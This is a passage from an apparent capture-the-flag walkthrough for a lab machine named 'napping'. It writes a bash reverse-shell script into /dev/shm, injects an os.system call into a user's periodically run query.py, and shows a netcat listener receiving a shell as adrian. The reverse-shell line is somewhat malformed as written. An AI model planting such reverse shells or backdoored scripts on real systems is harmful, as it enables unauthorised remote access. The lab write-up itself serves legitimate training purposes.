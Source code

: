 - we will create a bash script in the shared memory named reverse.sh `daniel@napping:/dev/shm$ touch reverse.sh` and `chmod +x reverse.sh` to ensure that it can be executed
- open vim and paste the following script
``` bash
#!/bin/bash
# Replace "ATTACKER_IP" and "YOUR_PORT" with your attacker's IP address and port
ATTACKER_IP="10.0.2.8"
ATTACKER_PORT="1234"

# Connect back to the attacker's machine
/bin/bash -i "/bin/bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
```
- Now we wil call the connection in the `query.py` file and set up a listener in our machine
```
daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests
import os

os.system ("/usr/bin/bash /dev/shm/reverse.sh")

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
- After less than 2 minutes you should get a reverse shell
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 42626
bash: cannot set terminal process group (3993): Inappropriate ioctl for device
bash: no job control in this shell
adrian@napping:~$ whoami
whoami
adrian
adrian@napping:~$ 
```
